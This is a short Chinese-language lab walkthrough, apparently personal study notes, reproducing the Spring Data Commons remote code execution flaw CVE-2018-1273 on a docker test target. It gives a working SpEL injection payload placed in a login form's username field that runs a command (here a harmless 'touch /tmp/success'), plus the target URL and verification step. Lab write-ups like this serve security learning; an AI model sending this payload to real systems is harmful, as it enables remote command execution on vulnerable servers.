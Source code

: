 # Spring Data Commons 远程命令执行漏洞（CVE-2018-1273）

1. 安装靶场环境

    ​![image](assets/image-20240923201103-r8ml6hs.png)​
2. 访问漏洞所在页面

    http://47.113.187.190:22375/users    就是users路径下

    ​![image](assets/image-20240923201153-5pivtsu.png)​
3. 在该页面burpsuite抓包，因为有cookie所以不能直接粘贴整个请求包哦，，只需要把请求体内容替换即可。

    ```python
    username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=
    ```

    ​![image](assets/image-20240923201307-ieoz0kh.png)​

4. 在docker的/tmp目录下查看是否执行了命令，生成一个success文件。

    docker exec -it a83bfec6f1a1 /bin/bash
